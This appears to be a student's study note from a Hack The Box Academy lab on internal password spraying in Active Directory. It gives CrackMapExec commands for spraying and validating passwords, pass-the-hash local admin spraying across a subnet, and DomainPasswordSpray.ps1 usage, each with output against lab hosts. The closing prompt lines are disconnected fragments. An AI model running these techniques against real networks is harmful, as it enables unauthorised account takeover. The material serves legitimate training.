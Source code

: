 <aside>
2️⃣ **Using CrackMapExec & Filtering Logon Failures ⭐**

</aside>

```
dollarboysushil@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

After getting correct credential from above method, we can validate the credentials using crackmapexec

```
dollarboysushil@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

<aside>
3️⃣ **Local Admin Spraying with CrackMapExec**

</aside>

```
dollarboysushil@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

 The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout

## **Internal Password Spraying - from Windows**

<aside>
1️⃣ **Using DomainPasswordSpray.ps1**

</aside>

```powershell
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
```

[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist